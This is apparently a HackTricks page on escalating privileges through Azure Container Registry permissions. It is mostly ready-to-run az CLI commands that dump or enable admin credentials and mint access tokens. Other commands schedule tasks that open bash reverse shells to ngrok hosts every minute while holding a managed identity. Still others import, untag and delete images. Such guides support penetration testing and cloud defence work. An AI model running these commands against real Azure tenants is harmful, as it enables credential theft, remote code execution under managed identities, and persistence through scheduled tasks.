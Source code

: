 # Az - Azure Container Registry Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Registry

Fore more information check:

{{#ref}}
../az-services/az-container-registry.md
{{#endref}}

### `Microsoft.ContainerRegistry/registries/listCredentials/action`

This permission allows the user to list the admin credentials of the ACR. This is useful to **get full access** over the registry

```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>/listCredentials?api-version=2023-11-01-preview"
```

In case the admin credentials aren't enabled, you will also need the permission `Microsoft.ContainerRegistry/registries/write` to enable them with:

```bash
az rest --method PATCH --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>?api-version=2023-11-01-preview" --body '{"properties": {"adminUserEnabled": true}}'
```


### `Microsoft.ContainerRegistry/registries/tokens/write`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`

These permissions allow the user to **create a new token** with passwords to access the registry.

To use the `az cli`to generate it as in the following example you will also need the permissions `Microsoft.ContainerRegistry/registries/read`, `Microsoft.ContainerRegistry/registries/scopeMaps/read`, `Microsoft.ContainerRegistry/registries/tokens/operationStatuses/read`, `Microsoft.ContainerRegistry/registries/tokens/read`

```bash
az acr token create \
    --registry <registry-name> \
    --name <token-name> \
    --scope-map _repositories_admin
```


### `Microsoft.ContainerRegistry/registries/listBuildSourceUploadUrl/action`, `Microsoft.ContainerRegistry/registries/scheduleRun/action`, `Microsoft.ContainerRegistry/registries/runs/listLogSasUrl/action`

These permissions allow the user to **build and run an image** in the registry. This can be used to **execute code** in the container.

>[!WARNING]
> However, the image will be executed in a **sandboxed environment** and **without access to the metadata service**. This means that the container will not have access to the **instance metadata** so this isn't really useful to escalate privileges

```bash
# Build
echo 'FROM ubuntu:latest\nRUN bash -c "bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/17585 0>&1"\nCMD ["/bin/bash", "-c", "bash -i >& /dev/tcp//2.tcp.eu.ngrok.io/17585 0>&1"]' > Dockerfile
az acr run --registry 12345TestingRegistry --cmd '$Registry/rev/shell:v1:v1' /dev/null
```


### `Microsoft.ContainerRegistry/registries/tasks/write`

This is the main permission that allows to create and update a task in the registry. This can be used to **execute a code inside a container with a managed identity attached to it** in the container.

This is the example on how to execute a reverseh shell in a container with the **system managed** identity attached to it:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task \
    --image rev/shell:v1 \
    --file ./Dockerfile \
    --context https://github.com/carlospolop/Docker-rev.git \
    --assign-identity \
    --commit-trigger-enabled false \
    --schedule "*/1 * * * *"
```

Another way to get a RCE from a task without using an external repository is to use the `az acr task create` command with the `--cmd` flag. This will allow you to run a command in the container. For example, you can run a reverse shell with the following command:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task-cmd \
    --image rev/shell2:v1 \
    --cmd 'bash -c "bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/15508 0>&1"' \
    --schedule "*/1 * * * *" \
    --context /dev/null \
    --commit-trigger-enabled false \
    --assign-identity
```

> [!TIP]
> Note that to assign the system managed identity you don't need any special permission, although it must have been enabled before in the registry and assigned some permissions for it to be useful.

To assign a **user managed identity also** you would need the permission `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action` to do:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task \
    --image rev/shell:v1 \
    --file ./Dockerfile \
    --context https://github.com/carlospolop/Docker-rev.git \
    --assign-identity \[system\] "/subscriptions/<subscription-id>>/resourcegroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<mi-name>" \
    --commit-trigger-enabled false \
    --schedule "*/1 * * * *"
```

To **update** the repo of an existent task you can do:

```bash
az acr task update \
    --registry <registry-name> \
    --name reverse-shell-task \
    --context https://github.com/your-user/your-repo.git 
```


### `Microsoft.ContainerRegistry/registries/importImage/action`

With this permission it's possible to **import an image to the azure registry**, even without having the image locally. However, note that you **cannot import an image with a tag** that already exists in the registry.

```bash
# Push with az cli
az acr import \
  --name <registry-name> \
  --source mcr.microsoft.com/acr/connected-registry:0.8.0 # Example of a repo to import
```

In order to **untag or delete a specific image tag** from the registry you can use the following command. However, note that you will need a user or token with **enough permissions** to do it:

```bash
az acr repository untag \
    --name <registry-name> \
    --image <image-name>:<tag>

az acr repository delete \
    --name <registry-name> \
    --image <image-name>:<tag>
```



{{#include ../../../banners/hacktricks-training.md}}


